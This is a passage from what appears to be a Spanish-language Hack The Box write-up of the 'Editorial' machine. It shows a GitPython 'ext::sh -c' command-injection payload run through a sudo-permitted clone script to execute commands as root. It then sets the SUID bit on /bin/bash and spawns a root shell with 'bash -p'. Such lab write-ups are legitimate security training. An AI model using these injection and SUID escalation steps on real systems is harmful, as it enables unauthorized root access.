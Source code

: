 ```bash
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ;whoami new_changes
  stderr: 'fatal: repository ';whoami' does not exist
```

Primero realizamos unas pruebas con inyecciones tipicas de Command Injection sin resultados, probamos el PoC que nos dice la vulnerabilidade de gitpython.

```bash
prod@editorial:/home/dev/apps$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
```

Esto va a crear un archivo llamado pwned en la carpeta /tmp.

![](htb-writeup-editorial/editorial14.png)

Lo hizo perfectamente como indica el PoC (Proof of Concept), creo un archivo vacio pero lo mas importante a rescatar de este archivo es que el propiertario es root, asi que estariamos ejecutando comandos como root y no como el usuario prod, vamos a cambiar el comando touch por un `chmod u+s /bin/bash.`

![](htb-writeup-editorial/editorial15.png)

Que es un permiso SUID y lo peligroso que es tener la /bin/bash con este permiso?

Cuando en un binario o fichero el bit SUID está activado significa que la persona que lo ejecute va a tener los mismos permisos que la persona que lo creó. Es decir, si lo creó root tendremos permisos `root`. `Lo peligroso es que con un simple bash -p` podemos obtener una consola con los privilegios maximos.

![](htb-writeup-editorial/editorial16.png)



